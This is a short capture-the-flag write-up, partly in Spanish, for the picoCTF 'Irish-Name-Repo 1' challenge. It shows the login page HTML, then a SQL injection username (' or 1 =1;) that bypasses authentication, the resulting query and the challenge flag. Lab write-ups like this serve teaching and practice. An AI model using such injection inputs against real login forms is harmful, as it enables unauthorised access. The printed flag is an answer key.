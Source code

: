 # Irish-Name-Repo 1
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Pistas
P1:There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
P2:Try to think about how the website verifies your login.
## Datos de acceso al nivel
```bash
Usuario: Dena
Contraseña: Notedigo
```
## Solución
```bash
Pass siguiente lvl:
--------------------------------------------
|   |   |
|---|---|
||<!doctype html>|
||<html>|
||<head>|
||<title>Login</title>|
||<link rel="stylesheet" type="text/css" href="[//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css](https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css)">|
||</head>|
||<body>|
||<div class="container">|
||<div class="row">|
||<div class="col-md-12">|
||<div class="panel panel-primary" style="margin-top:50px">|
||<div class="panel-heading">|
||<h3 class="panel-title">Log In</h3>|
||</div>|
||<div class="panel-body">|
||<form action="login.php" method="POST">|
||<fieldset>|
||<div class="form-group">|
||<label for="username">Username:</label>|
||<input type="text" id="username" name="username" class="form-control">|
||</div>|
||<div class="form-group">|
||<label for="password">Password:</label>|
||<div class="controls">|
||<input type="password" id="password" name="password" class="form-control">|
||</div>|
||</div>|
||<input type="hidden" name="debug" value="0">|
|||
||<div class="form-actions">|
||<input type="submit" value="Login" class="btn btn-primary">|
||</div>|
||</fieldset>|
||</form>|
||</div>|
||</div>|
||</div>|
||</div>|
||</div>|
||</body>|
||</html>|
|||


username: ' or 1 =1;
password: holague
SQL query: SELECT * FROM users WHERE name='' or 1 =1;' AND password='holague'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```
## Notas Adicionales

| Comando  | Descripción | 
|------------|--------------|

## Referencias 
https://www.w3schools.com/sql/sql_injection.asp